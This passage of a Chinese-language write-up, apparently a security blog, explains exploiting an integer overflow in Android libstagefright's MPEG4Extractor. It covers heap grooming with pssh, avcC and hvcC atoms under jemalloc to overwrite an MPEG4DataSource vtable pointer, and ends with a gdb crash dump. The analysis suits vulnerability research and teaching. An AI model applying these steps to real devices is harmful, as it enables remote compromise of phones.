 ```
| pssh | - | pssh |
```


第 `17` 到 `25` 行，清理内存后,开始分配 `avcC` 和 `hvcC`, 大小也是 `0x20`， 然后在第 `25` 行又进行了内存碎片清理，原因在于我们在分配 `avcC` 和 `hvcC`时，会使用到 `new ABuffer(chunk_data_size)`,这个临时的缓冲区，这个会在函数返回时被释放（请看智能指针相关知识）

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1511330396572jzet4fq5.png?imageslim)
同时多分配了几个 `pssh` 确保可以把 `avcC` 和 `hvcC`包围在中间。所以现在的内存关系是

```
| pssh | - | pssh | pssh | avcC | hvcC | pssh |
```

然后是 第 `29` 行， 再次分配 `hvcC` ,不过这次的大小 为 `alloc_size * 2`, 触发 `hvcC` 的释放，而且确保不会占用 刚刚释放的 内存.（jemalloc中  相同大小的内存在同一个run中分配）
```
| pssh | - | pssh | pssh | avcC | .... | pssh |

```


接下来构造 `stbl` 用 `MPEG4DataSource ` 占据刚刚空出来的 内存。
```
| pssh | - | pssh | pssh | avcC | MPEG4DataSource | pssh |
```
接下来， 第 `38` 行用同样的手法分配释放 `avcC`
```
| pssh | - | pssh | pssh | .... | MPEG4DataSource | pssh |

```

然后使用整数溢出，计算得到第二个 `tx3g` 的长度值，使得最后分配到的内存大小为`0x20`, 用来占据刚刚空闲的 `avcC` 的 内存块，于是现在的内存布局，就会变成这样。

```
| pssh | - | pssh | pssh | tx3g | MPEG4DataSource | pssh |
```
然后在

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1511331158750fgbh83d2.png?imageslim)
就会溢出修改了 `MPEG4DataSource ` 的虚表指针。然后在下面的 `readAt` 函数调用出会 `crash`.

我测试时得好几次才能成功一次，估计和内存碎片相关。
```
Thread 10 received signal SIGSEGV, Segmentation fault.
0xb66b57cc in android::MPEG4Extractor::parseChunk (this=this@entry=0xb74e2138, offset=offset@entry=0xb550ca98, depth=depth@entry=0x2) at frameworks/av/media/libstagefright/MPEG4Extractor.cpp:1905
1905	            if ((size_t)(mDataSource->readAt(*offset, buffer + size, chunk_size))
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$r0   : 0xb74e27b8  →  0x61616169 ("iaaa"?)
$r1   : 0xb74e2bb8  →  0x00000000
$r2   : 0x61616169 ("iaaa"?)
$r3   : 0x00000000
$r4   : 0xb550c590  →  0x00000428
$r5   : 0xfffffbf8
$r6   : 0xb550c580  →  0xb74e5c98  →  0x28040000
$r7   : 0xb550c570  →  0xfffffbf8
$r8   : 0xb74e2138  →  0xb6749f18  →  0xb66b2841  →  <android::MPEG4Extractor::~MPEG4Extractor()+1> ldr r3,  [pc,  #188]	; (0xb66b2900 <android::MPEG4Extractor::~MPEG4Extractor()+192>)
$r9   : 0x74783367 ("g3xt"?)
$r10  : 0xb550ca98  →  0x01000a98
$r11  : 0xb74e2790  →  0x28040000
$r12  : 0x00000000
$sp   : 0xb550c530  →  0xb74e2bb8  →  0x00000000
$lr   : 0xb66b57bd  →  <android::MPEG4Extractor::parseChunk(long+0> ldr r1,  [r4,  #0]
$pc   : 0xb66b57cc  →  <android::MPEG4Extractor::parseChunk(long+0> ldr r6,  [r2,  #28]
$cpsr : [THUMB fast interrupt overflow carry ZERO negative]
```